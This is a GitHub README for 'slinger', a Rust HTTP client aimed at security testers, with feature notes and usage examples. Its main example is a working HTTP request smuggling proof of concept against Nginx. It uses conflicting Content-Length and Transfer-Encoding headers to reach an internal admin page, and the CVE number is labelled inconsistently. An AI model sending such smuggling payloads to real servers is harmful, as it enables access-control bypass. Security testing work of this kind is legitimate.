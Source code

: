 <!-- Improved compatibility of back to top link: See: https://github.com/emo-crab/slinger/pull/73 -->
<a name="readme-top"></a>
<!--
*** Thanks for checking out the slinger. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Don't forget to give the project a star!
*** Thanks again! Now go create something AMAZING! :D
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]
[![crates io][crates-shield]][crates-url]




<!-- PROJECT LOGO -->
<br />
<div align="center">
  <a href="https://github.com/emo-crab/slinger">
    <img src="images/logo.svg" alt="Logo">
  </a>

<h3 align="center">slinger(投石器)</h3>

  <p align="center">
    An HTTP Client for Rust designed for hackers.
    <br />
    <a href="https://github.com/emo-crab/slinger"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="https://github.com/emo-crab/slinger">View Demo</a>
    ·
    <a href="https://github.com/emo-crab/slinger/issues">Report Bug</a>
    ·
    <a href="https://github.com/emo-crab/slinger/issues">Request Feature</a>
  </p>
</div>

<!-- ABOUT THE PROJECT -->

## About The Project

![Product Name Screen Shot][product-screenshot]

- customizable redirect policy
- http/https and socks5/socks5h proxies
- cookie store
- raw socket request
- HTTPS via tls

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- GETTING STARTED -->

## Getting Started

This example enables some optional features, so your `Cargo.toml` could look like this:

```toml
[dependencies]
slinger = { version = "0.1.2", features = ["serde", "cookie", "charset", "tls", "gzip"] }
```

And then the code:

```rust,no_run
#[tokio::main]
async fn main() -> Result<(), Box<dyn std::error::Error>> {
  let resp = slinger::get("https://httpbin.org/get").await?;
  println!("{:?}", resp.text());
  Ok(())
}
```

<!-- USAGE EXAMPLES -->

## Example

- Nginx - Http Smuggling [CVE-2019-20372](https://scap.kali-team.cn/cve/CVE-2020-11724)

```rust
use std::io::BufRead;
use slinger::{ClientBuilder, HTTPRecord};

/// CVE-2020-11724
/// when you're using BurpSuite proxy need **disabled** "set **Connection** header on incoming request"
const RAW: &[u8] = b"GET /test1 HTTP/1.1
Host: 192.168.83.196:8081
Content-Length: 42
Transfer-Encoding: chunked

0

GET /test1 HTTP/1.1
Host: 192.168.83.196:8081
X: GET http://192.168.83.1:8080/admin.jsp HTTP/1.0

";
#[tokio::main]
async fn main() -> Result<(), Box<dyn std::error::Error>> {
  // let proxy = slinger::Proxy::parse("http://127.0.0.1:8080").unwrap();
  let client = ClientBuilder::new().build().unwrap();
  let mut raw = Vec::new();
  // replace \n to \r\n
  for line in RAW.lines() {
    match line {
      Ok(l) => {
        raw.extend(l.as_bytes());
        raw.extend(b"\r\n")
      }
      Err(err) => {
        println!("{:?}", err);
      }
    }
  }
  let resp = client.raw("http://127.0.0.1:9015/", raw, true).send().await?;
  let record = resp.extensions().get::<Vec<HTTPRecord>>().unwrap();
  println!("{:?}", record);
  Ok(())
}

```

_For more examples, please refer to the [example](https://github.com/emo-crab/slinger/tree/main/examples)_

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- CONTRIBUTING -->

## Contributing

Contributions are what make the open source community such an amazing place to learn, inspire, and create. Any
contributions you make are **greatly appreciated**.

If you have a suggestion that would make this better, please fork the repo and create a pull request. You can also
simply open an issue with the tag "enhancement".
Don't forget to give the project a star! Thanks again!

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- LICENSE -->

## License

Distributed under the `GPL-3.0-only` License. See `LICENSE` for more information.

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- CONTACT -->

## Contact

Your Name - [@Kali_Team](https://twitter.com/Kali_Team) - root@kali-team.cn

Project Link: [https://github.com/emo-crab/slinger](https://github.com/emo-crab/slinger)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->

## Acknowledgments

* [reqwest](https://github.com/seanmonstar/reqwest)

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->

[contributors-shield]: https://img.shields.io/github/contributors/emo-crab/slinger.svg?style=for-the-badge

[contributors-url]: https://github.com/emo-crab/slinger/graphs/contributors

[forks-shield]: https://img.shields.io/github/forks/emo-crab/slinger.svg?style=for-the-badge

[forks-url]: https://github.com/emo-crab/slinger/network/members

[stars-shield]: https://img.shields.io/github/stars/emo-crab/slinger.svg?style=for-the-badge

[stars-url]: https://github.com/emo-crab/slinger/stargazers

[issues-shield]: https://img.shields.io/github/issues/emo-crab/slinger.svg?style=for-the-badge

[issues-url]: https://github.com/emo-crab/slinger/issues

[license-shield]: https://img.shields.io/github/license/emo-crab/slinger.svg?style=for-the-badge

[license-url]: https://github.com/emo-crab/slinger/blob/master/LICENSE.txt

[product-screenshot]: images/screenshot.png

[crates-shield]: https://img.shields.io/crates/v/slinger.svg?style=for-the-badge

[crates-url]: https://crates.io/crates/slinger
